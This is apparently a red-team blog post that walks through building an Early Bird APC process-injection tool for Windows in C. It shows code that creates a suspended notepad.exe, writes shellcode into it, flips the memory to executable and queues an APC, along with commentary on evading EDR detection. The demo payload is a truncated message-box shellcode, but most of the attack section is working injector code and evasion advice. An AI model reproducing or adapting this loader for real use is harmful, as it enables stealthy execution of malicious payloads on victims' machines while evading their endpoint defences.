





# Into the Abyss 
<br>
<center>

"And if you gaze long into an abyss, the abyss also gazes into you."
<br>- Friedrich Nietzsche
</center>

<br>

## Introduction

After finishing the previous blog post about the Process Injection technique in its most simple form, I was thinking about where to go next. There's so much fun stuff to do—so, which topic next?

I remember when I wrote the [custom loader](https://github.com/ShadowBumble/SimpleLoader/blob/main/SimpleLoader.c) for the [Ninja Hacker Academy writeup](https://www.shadowbumble.nl/posts/NHA/), I combined a few techniques, but I didn’t explicitly explain why or what their benefits are.

Let’s dive into one of those techniques that is still often used, called **Early Bird**, which is a technique that builds on the concepts of the vanilla process injection technique. 

But what is Early Bird, and why is it an important technique to know?

> _Everything shared on this blog is purely for educational purposes and meant to spark ideas or help you learn. If you decide to try anything mentioned here, you’re doing so at your own risk. Please use your best judgment and do your own research before taking action._

## Early Bird Process Injection (Sub)Technique

The **Early Bird Process Injection** technique is a stealthy method used by malware to inject malicious code into a legitimate process during its **early startup phase**—before the process begins executing its main thread. This approach helps attackers evade detection by security software, as the injection occurs before many endpoint protection systems start monitoring the process.

The technique typically involves these steps:
1. The attacker starts a **suspended process** using `CreateProcess` with the `CREATE_SUSPENDED` flag.
2. Malicious code is written into the target process’s memory using functions like `WriteProcessMemory`.
3. The entry point of the legitimate process is redirected to the injected code, often by modifying the **entry point address in the process's PEB (Process Environment Block)** or altering the thread context.
4. The process is resumed using `ResumeThread`, which causes it to execute the attacker's payload before any legitimate code runs.

Because the injection happens **before the process becomes active**, and the malicious code runs first, it can bypass common detection mechanisms such as API monitoring or behavioral analysis. This makes Early Bird Injection a powerful technique to have in your arsenal.

## Expanding the Process Injection technique

In our previous blog, we didn’t particularly go deep into the Process Injection technique. We mentioned some of the functions we were going to use and why.

The big caveat of that technique is that you already need an existing, running process to inject your code into—which is why we needed to provide a Process ID (PID) for our previous injector. Let's dive into some of the differences and inner workings of the vanilla injector technique and the early bird injector technique.

### The previous injector

The created injector from our previous blog was a very vanilla based Injector, it used and showed the fundamental principles needed to perform process injection.

This injector leveraged the `OpenProcess` API function, then we allocated some space in the process’s memory with `VirtualAllocEx` for our buffer containing the shellcode, and finally used `WriteProcessMemory` to put the bytes into memory that we could run by calling `CreateRemoteThreadEx`.

Recap of the functions used in the table below for these [Win32 API](https://learn.microsoft.com/en-us/windows/win32/api) functions:

|Handle|Description|Reference|
|:-|:-|:-|
`OpenProcess`|Opens an existing local process object.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
`VirtualAllocEx `|Reserves, commits, or changes the state of a region of memory within the virtual address space of a specified process. The function initializes the memory it allocates to zero.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
`WriteProcessMemory`|Writes data to an area of memory in a specified process. The entire area to be written to must be accessible or the operation fails.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
`CreateRemoteThreadEx`|Creates a thread that runs in the virtual address space of another process and optionally specifies extended attributes such as processor group affinity.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethreadex)

To put it in a more visual flow our previous Injector currently works like this:



### The early bird injector

Early Bird leverages a sub-technique within the Process Injection family called [Asynchronous Procedure Call](https://attack.mitre.org/techniques/T1055/004/). Early Bird belongs to this family of sub-techniques because it involves creating a suspended process where malicious code can be written and executed before the process’s entry point (and potentially before any anti-malware hooks) via an APC.

The functions mentioned in the above table also change as the method changes. We no longer need `OpenProcess` and `CreateRemoteThreadEx`. Instead, we use `CreateProcessA`, `VirtualProtectEx`, `QueueUserAPC`, and `ResumeThread`.

Table of the new functions used now for the Early Bird Process Injection technique

|Handle|Description|Reference|
|:-|:-|:-|
`CreateProcessA`|Creates a new process and its primary thread. The new process runs in the security context of the calling process.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)
`VirtualProtectEx`|Changes the protection on a region of committed pages in the virtual address space of a specified process.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex)
`VirtualAllocEx `|Reserves, commits, or changes the state of a region of memory within the virtual address space of a specified process. The function initializes the memory it allocates to zero.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
`WriteProcessMemory`|Writes data to an area of memory in a specified process. The entire area to be written to must be accessible or the operation fails.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
`QueueUserAPC`|Adds a user-mode asynchronous procedure call (APC) object to the APC queue of the specified thread.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)
`ResumeThread`|Decrements a thread's suspend count. When the suspend count is decremented to zero, the execution of the thread is resumed.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)

Early Bird is a completely different method of process injection that focuses on stealth and timing. Instead of obtaining a handle to an already running process—like in more traditional injection techniques—Early Bird takes a more proactive approach.

This technique involves creating a brand-new process in a **suspended state**, meaning it hasn't started executing any code yet. While the process is still dormant, we inject our payload directly into its memory space. Once the payload is in place, we queue it up for execution and then resume the suspended process, which unknowingly executes our injected payload right at startup.

This method is particularly effective because the injection happens **before the target process begins normal execution**, allowing the attacker to bypass certain defensive mechanisms such as runtime API monitoring or userland hooks.

For red teamers, this technique offers a stealthier alternative to more obvious approaches like `CreateRemoteThread`. From a detection standpoint, it blends in better with legitimate process behavior and gives blue teams a more difficult challenge.

If we visualize the flow of this technique, it would look something like the diagram below:



Now, that we have a understanding let's create a PoC of the technique.

## Building the EarlyBird Injector

Let's start with generating some shellcode to give us a `MessageBox` to add to our code



### Code Template

As with our previous blog post, instead of simply copy-pasting the full code, we'll build it step by step. This approach includes debug and output messages, allowing us to follow the process more clearly. Below is the base template (with the shellcode truncated for readability). The full code will be added to the [Abyss Repository](https://github.com/ShadowBumble/TheAbyss) as `AbyssEarlyBird.c`


#include <windows.h>
#include <stdio.h>

#define OKAY(MSG, ...) printf("[+] " MSG "\n", ##__VA_ARGS__)
#define INFO(MSG, ...) printf("[i] " MSG "\n", ##__VA_ARGS__)
#define WARN(MSG, ...) fprintf(stderr, "[-] " MSG "\n", ##__VA_ARGS__)

// Sample shellcode (Message Box PopUp)
unsigned char AbyssBird[] = 
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xcc\x00\x00\x00\x41"; //Truncated for readability

int main(int argc, char* argv[]) {

    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    si.cb = sizeof(si);

    // Postition 1
    // Postition 2
    // Postition 3
    // Postition 4
    // Postition 5
    // Postition 6

    return 0;
}


With that prepared, let's start building our proof-of-concept (PoC). This time, I'll approach it a bit differently—constructing the code in blocks that correspond to the visual flow diagram shown above for the EarlyBird injector.


### CreateProcessA Block (Position 1)

The first step in implementing the EarlyBird injection technique is to create a target process in a suspended state. This gives us a window to modify the process memory and queue an Asynchronous Procedure Call (APC) before any of its threads begin executing user code.

In our proof-of-concept, we’ll use `notepad.exe` as the target process. This is a common choice in demonstrations because it's benign, familiar, and unlikely to trigger alarms during local testing. Of course, in a real red team scenario, the target could be any executable that blends into the environment or helps avoid detection.

By creating the process in a suspended state, we gain control before its primary thread starts running. This allows us to allocate memory, write our payload (shellcode), and queue an APC safely. We'll also set up some useful process and thread handles that we’ll use in the upcoming steps.

```c
    INFO("Creating suspended process: notepad.exe");

    if (!CreateProcessA(
        "C:\\Windows\\System32\\notepad.exe",
        NULL, NULL, NULL, FALSE,
        CREATE_SUSPENDED,
        NULL, NULL,
        &si, &pi))
    {
        WARN("Failed to create process. Error: %lu", GetLastError());
        return 1;
    }

    OKAY("Suspended process created (PID: %lu)", pi.dwProcessId);

    HANDLE victimProcess = pi.hProcess;
    HANDLE threadHandle = pi.hThread;
```

### VirtualAllocEx Block (Position 2)

Now that we’ve created a suspended process, the next step is to allocate memory within that process’s address space. This memory will serve as the destination for our payload — specifically, the shellcode that we’ll inject in the following step.

We use the `VirtualAllocEx` API to allocate memory inside the remote (suspended) process. At this stage, the memory is requested with `PAGE_READWRITE` permissions. This is intentional: writing to `RW` memory is far less suspicious to endpoint detection and response (EDR) systems than writing directly to memory marked as executable.

Once the shellcode is safely written, we’ll switch the memory protection to `PAGE_EXECUTE_READ` using `VirtualProtectEx`. This flips the region to be executable but read-only — just before we trigger execution via APC.

This approach helps evade simple behavioral signatures. Many EDRs flag processes that allocate memory with `PAGE_EXECUTE_READWRITE` or write directly to `RX` memory as potentially malicious. By separating the write and execute phases, we blend in with more legitimate behavior patterns seen in everyday applications.

```C
    INFO("Allocating memory in remote process");

    LPVOID shellAddress = VirtualAllocEx(
        victimProcess,
        NULL,
        sizeof(AbyssBird),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE // Initially RW
    );

    if (!shellAddress) {
        WARN("Failed to allocate memory. Error: %lu", GetLastError());
        return 1;
    }

    OKAY("Memory allocated at remote address: %p", shellAddress);

```

### WriteProcessMemory Block (Position 3)

With the memory region successfully allocated inside the remote process, the next step is to write our shellcode into it.

We’ll use the `WriteProcessMemory` API to copy our shellcode into the memory we previously reserved with `VirtualAllocEx`. This operation is straightforward: it simply pushes raw bytes (our payload) into the remote process’s address space.

At this point, there’s no execution involved — we’re merely placing the shellcode into memory. Since the memory is still marked as `PAGE_READWRITE`, this write operation shouldn't raise suspicion, especially in a benign process like `notepad.exe`.

```C
    INFO("Writing shellcode into remote process");

    if (!WriteProcessMemory(
        victimProcess,
        shellAddress,
        AbyssBird,
        sizeof(AbyssBird),
        NULL))
    {
        WARN("Failed to write memory. Error: %lu", GetLastError());
        return 1;
    }

    OKAY("Shellcode written to remote memory");
```

### VirtualProtectEx Block (Position 4)

Now that the shellcode has been written into memory, the next step is to change the protection on that region so it can be executed.

When we allocated the memory earlier, it was marked as `PAGE_READWRITE` — meaning the shellcode could be written to, but not executed. This is a common tactic to evade some basic detection mechanisms during the write phase.

To prepare the memory for execution, we use the `VirtualProtectEx` API to change the memory protection to `PAGE_EXECUTE_READ`. This allows the process to read from and execute the shellcode, but not write to it — a necessary condition for execution.

This change is a crucial part of the injection chain, and it’s also where many EDRs may pay closer attention. It’s one of the behavioral indicators that shellcode is about to be executed, so red teamers may consider applying more subtle permission-flipping techniques or even avoiding this API if they aim to stay low and slow.

```C
    INFO("Changing memory protection to PAGE_EXECUTE_READ (RW -> RX)");

    DWORD oldProtect = 0;
    if (!VirtualProtectEx(
        victimProcess,
        shellAddress,
        sizeof(AbyssBird),
        PAGE_EXECUTE_READ,
        &oldProtect))
    {
        WARN("Failed to change memory protection. Error: %lu", GetLastError());
        return 1;
    }

    OKAY("Memory protection changed successfully");
```

### QueueUserAPC Block (Position 5)

At this point, our shellcode is written and the memory region has the correct execution permissions. We're now ready to set the stage for the actual execution.

To do this, we use the `QueueUserAPC` function to queue the shellcode as an Asynchronous Procedure Call (APC) onto the main thread of the suspended process. This means that once the thread is resumed, it will first execute our injected shellcode before resuming any of its legitimate instructions.

This is the key mechanism behind the **EarlyBird** injection technique — by injecting into the thread *before* it actually begins executing, we’re essentially hijacking the process at the very earliest opportunity.

Queuing the APC does not immediately execute the shellcode — it simply lines it up. The thread still needs to be resumed for the shellcode to run, which we’ll handle in the next step.

```C
    INFO("Queuing APC for execution");

    if (QueueUserAPC(
        (PAPCFUNC)shellAddress,
        threadHandle,
        (ULONG_PTR)NULL) == 0)
    {
    
    WARN("Failed to queue APC. Error: %lu", GetLastError());
    return 1;
    }

    OKAY("APC successfully queued");
```

### ResumeThread and Cleanup Block (Position 6)

This final block brings our EarlyBird injection chain to a close.

Before resuming the suspended process, we introduce a deliberate pause using `getchar()`. This gives us an opportunity to inspect the suspended process in memory — whether through a debugger, Task Manager, or other tools — before the shellcode begins execution.

Once you press the `ENTER` key, the thread resumes, and the shellcode (now properly queued and marked as executable) should fire. If the payload was a message box, you should see it pop up immediately.

To maintain clean execution and avoid leaving zombie processes or open handles, we also call `WaitForSingleObject`. This ensures that our injector waits for the target process (e.g., Notepad) to finish running — or at least until the message box is dismissed — before closing all process/thread handles and exiting gracefully.

This clean-up is good operational hygiene and prevents suspicious artifacts from lingering.

```C
    INFO("Press ENTER to resume thread and trigger shellcode............");
    getchar();

    ResumeThread(threadHandle);

    OKAY("Thread resumed, shellcode should be executing");

    WaitForSingleObject(threadHandle, INFINITE);

    // Cleanup
    CloseHandle(threadHandle);
    CloseHandle(victimProcess);
```

## Testing the EarlyBird Injector

Now that we’ve completed the build of our EarlyBird injector, it’s time to execute the binary and verify that each step of the injection process behaves as expected.



In the screenshot above, you can see our injector successfully spawned a new `notepad.exe` process — in this example, with Process ID (PID) 960. Inspecting this process in **Process Hacker**, we observe that its `State` is listed as `Wait:Suspended`. This indicates that the process was created in a suspended state, as intended — a key prerequisite for the EarlyBird technique. At this point, our shellcode is already queued via `QueueUserAPC`, but hasn't yet executed.

Once we press `ENTER` in our injector, the thread is resumed and the queued shellcode is triggered for execution.



And as expected — our payload executes, and a message box pops up! In Process Hacker, you’ll notice that the process's thread state transitions from `Wait:Suspended` to `Wait:WrUserRequest`. This change reflects that the shellcode is actively executing, and the thread is now waiting for user input via the message box.

Thanks to the `WaitForSingleObject` implementation in our code, the injector itself pauses execution until the message box is dismissed. This ensures that the process remains alive long enough for proper observation or interaction, and cleanly shuts down afterward.

This confirms that our implementation of the EarlyBird technique is functioning as designed — successfully queuing and executing shellcode in a suspended thread before it's even fully running.

## Wrapping Up

Wrapping up this deep dive into the EarlyBird Injector PoC, it’s clear that even techniques we've previously implemented—such as in our [custom loader](https://github.com/ShadowBumble/SimpleLoader/blob/main/SimpleLoader.c) used for the [Ninja Hacker Academy writeup](https://www.shadowbumble.nl/posts/NHA/)—can still offer new insights when revisited with a fresh perspective. What began as a practical tool evolved into a structured, well-documented technique, and in the process, served as a reflection of my own growth in offensive development.

This exercise emphasized the importance of clarity, structure, and intent—not just in code execution, but in understanding the "why" behind each line. For red teamers, it's a reminder that refining old tools and techniques often leads to better operational outcomes and deeper technical mastery.

Thanks for sticking through the read—if you found value in this post, keep an eye out for future ones where we'll continue exploring nuanced TTPs and offensive engineering practices.